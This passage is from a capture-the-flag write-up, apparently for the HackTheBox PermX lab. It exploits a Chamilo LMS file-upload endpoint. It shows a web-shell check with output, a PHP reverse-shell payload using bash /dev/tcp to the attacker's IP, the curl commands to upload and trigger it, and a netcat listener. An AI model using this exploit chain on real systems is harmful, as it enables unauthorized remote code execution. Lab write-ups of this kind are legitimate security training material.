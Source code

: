**Functionality Verification:**

```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php?cmd=id'
```

Output:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Shell confirmed as www-data\!
    </p>
</div>

### Obtaining a Reverse Shell

**Starting listener on attacking machine:**

```bash
nc -lnvp 4455
```

**Creating reverse shell payload:**

```bash
echo '<?php system("bash -c '\''bash -i >& /dev/tcp/10.10.14.12/4455 0>&1'\''"); ?>' > rev.php
```

**Payload Upload:**

```bash
curl -F 'bigUploadFile=@rev.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

**Reverse Shell Execution:**

```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rev.php'
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Connection established → www-data shell obtained\!
    </p>
</div>

## 🔧 Phase 5 — Shell Stabilization and Enumeration

### Shell Improvement

Stabilizing the shell for better interactivity:
